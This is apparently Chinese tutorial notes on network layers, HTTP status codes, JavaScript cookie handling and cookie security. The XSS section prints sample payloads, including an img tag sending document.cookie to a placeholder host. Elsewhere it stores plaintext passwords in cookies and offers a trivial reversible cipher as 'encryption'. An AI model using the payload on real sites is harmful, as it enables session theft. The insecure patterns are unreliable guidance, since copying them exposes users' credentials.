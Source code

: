 ## 通信协议 

为了能够让不同设备通过网络进行互联互通、数据交互，必须规定大家都要遵守的标准“通信协议”。
当前ISO标准是7层网络模型：
（1）应用层：对应应用程序的通信服务的。示例：telnet，HTTP,FTP,WWW,NFS,SMTP等。
（2）表示层：定义数据格式及加密，例：FTP以二进制或ASCII格式传输。
（3）会话层：完成连续消息通知表示层，表示层看到的数据是连续的。示例：RPC，SQL等。
（4）传输层：不同应用的数据流的输入进行复用，数据包的重新排序功能。示例：TCP，UDP，SPX。
（5）网络层：定义逻辑地址，路由实现的方式。示例：IP,IPX等。
（6）数据链路层：如何将数据组合成数据块（帧）传送，如何处理传输差错。示例：ATM，FDDI等。
（7）物理层：有关传输介质的特性标准。连接头、针、针的使用、电流等。示例：Rj45，802.3等。
互联网使用TCP/IP协议：
	联网设备地址使用IP协议，如何打包数据，数据包编号使用TCP协议。
	TCP把应用程序的数据分割打成IP包，IP负责把包传给目标设备。

## HTTP 

http（超文本传输协议）是一个基于请求与响应的应用层协议。
	url请求资源的地址 http://host[":"port][abs_path]
	host 主机名，对应IP地址的一个点或一段；port 端口号 ；abs_path 主机上的资源路径
请求方式：
	get请求，将请求数据作为url一部分发送，不安全，传输数据量小，方便易用。
	post请求，传输数据量大，安全，一般做表单提交。
**常见响应状态码**：
	200 OK	 //客户端请求成功
	400 Bad Request //客户端请求有语法错误，不能被服务器所理解
	401 Unauthorized //请求未经授权，这个状态代码必须和WWW-Authenticate报头域一起使用
	403 Forbidden //服务器收到请求，但是拒绝提供服务
	404 Not Found //请求资源不存在，输入了错误的URL
	500 Internal Server Error //服务器发生不可预期的错误
	503 Server Unavailable //服务器当前不能处理客户端的请求，一段时间后可能恢复正常

# Cookie的概念

cookie 是存储于访问者的计算机中的变量。每当同一台计算机通过浏览器请求某个页面时，就会发送这个cookie。你可以使用 JavaScript 来创建和取回 cookie 的值。
	你可以把用户的登录名密码存储于cookie中，就可以实现自动登录。
	也可以用来保存购物车信息。
	Cookie的特点
	（1）cookie可能被禁用。
	（2）cookie是与浏览器相关的。不同浏览器所保存的cookie也是不能互相访问的。
	（3）cookie可能被用户删除。
	（4）cookie安全性不够高。如果要保存用户名密码等信息时，最好事先经过加密处理。
	（5）存储的数据量 4k 大小，cookie只支持存储string类型的数据。
	（6）简单易用。
	（7）信息存储于用户硬盘，因此可以作为全局变量。

## Cookie格式 

cookie就是一串字符串，格式就是键值对，分号隔开，三个属性可有可无。
	cookieName=cookieValue;**expires=GMTString**;**path=URLpath**;**domain=siteDomain**
	cookie名称----cookie值	---	失效日期	---	可访问url	---	可访问主机
	document.cookie=“cookieName=cookieValue”;//设置cookie
	没有指定失效日期的cookie在浏览器关闭后就消失。
	可访问url指定网站下能够访问cookie的路径。例：/shop
	可访问主机指定可访问cookie的主机名。例：www.163.com和mail.163.com指定为163.com
	注：失效日期由date.toGMTString（）方法取得。

## 写入/读取cookie 

写入7天后过期的cookie
		var date=new Date(); 
		date.setDate(date.getDate()+7); 
		document.cookie="userName=zhang; expires="+date.toGMTString();
		document.cookie="userPws=123456; expires="+date.toGMTString();
	读取上边写入的cookie，因为cookie每次是全部获取，所以需要自己写解析cookie的代码。
		var uname,upws;
		var cookiearr=document.cookie.split("; ");
		for(var i=0;i<cookiearr.length;i++){
			var coocieItem=cookiearr[i].split("=");
			if(coocieItem[0]=="userName"){
				uname=coocieItem [1];
			}
			if(coocieItem[0]=="userPws"){
				upws=coocieItem [1];
			}
		}

## Cookie的其他操作 

添加与覆盖：
		浏览器用cookie名称来区别cookie，添加不同名称cookie会一直续在前一个cookie后，同名的cookie会覆盖值。
	删除cookie：
		不能直接删除cookie，但是设置失效日期为过去，浏览器会删除cookie。
	中文及特殊字符支持：
		使用escape（）函数编码cookie值，读取时使用unescape（）函数解码。
	判断cookie是否存在：
		document.cookie.indexOf(NameOfCookie+“=”); //使用字符串函数indexOf
		例：document.cookie=“str=”+escape(“I love ajax”);相当于document.cookie="str=I%20love%20ajax";

## Json2的方法 

JSON2.js文件提供字符串转JSON和JSON转字符串的方法
	JSON.parse()【从一个字符串中解析出JSON对象】
	例子：
		var data='{"name":"goatling"}'
		JSON.parse(data)
	结果是：
		{name:"goatling“}
		JSON.stringify()【从一个JSON对象中解析出字符串】
		var data={name:'goatling'}
		JSON.stringify(data)
	结果是：
		'{"name":"goatling"}‘
	解析cookie很烦？用JSON结合cookie就会方便很多。

## cookie的安全策略 

XSS攻击：
		 跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## cookie的安全策略（攻击代码示例） 

 html代码
	 
		<body>
			<span id="s"></span>	
			<textarea id="txtId" style="width:200px;height:200px" ></textarea>
			<input id="btn" type="button" value="测试" />
		</body>

​	 script代码
​		window.onload = function(){
​			document.getElementById("btn").onclick = function(){
​				 document.getElementById("s").innerHTML = document.getElementById("txtId").value;
​			}
​		}
​	 运行html页面，在文本域里输入：
​		`<a href="" onclick="javascript:{alert('dd');for(var i=0;i<10;i++){alert(i)}}" >百度</a>`

## cookie的安全策略 

XSS攻击：

		<script>alert(document.cookie)</script>

`<a href="" onclick="javascript:(function(){alert(444);})()">超级</a>`
这段代码能够发送当前cookie到www.xxx.com
	<img src='http://www.xxx.com?cookie='+document.cookie;/>
cookie欺骗：
	拿到cookie后，分析出用户名和密码，然后修改自己的cookie为分析出的用户名密码，访问网站成功登录。
如何防范：
	1，Html转码（防止“<”等特殊字符，防止注入js）
	2，敏感信息加密
	3，cookie和ip地址绑定（cookie检查ip地址，ip和cookie不符的不能登录，需要服务器端配合）

## cookie的安全策略 

//加密 abcd 经过compile() 后 e
	function compile(code) 
	{ 
	 var c=String.fromCharCode(code.charCodeAt(0)+code.length); 
	 for(var i=1;i<code.length;i++){ 
	 c+=String.fromCharCode(code.charCodeAt(i)+code.charCodeAt(i-1)); 
	 } 
 	return(escape(c)); 
	} 
	//解密
	function uncompile(code) 
	{ 
	 code=unescape(code); 
	 var c=String.fromCharCode(code.charCodeAt(0)-code.length); 
	 for(var i=1;i<code.length;i++){ 
	 c+=String.fromCharCode(code.charCodeAt(i)-c.charCodeAt(i-1)); 
	 } 
	 return c; 
	}

## Cookie的封装 

设置cookie
	function setCookie (key, value, t) {
		var oDate = new Date();
		oDate.setDate(oDate.getDate() + t);
		document.cookie = key + ‘=’ +escape(value) + '; expires=' + oDate.toGMTString()
	}
	获取cookie
	function getCookie (key) {
		var arr1 = document.cookie.split(';');
		for( var i=0;i<arr1.length; i++ ) {
			var arr2 = arr1[i].split('=');
			if( arr2[0] == key ){
				return unescape(arr2[1]);
			}
		}
	}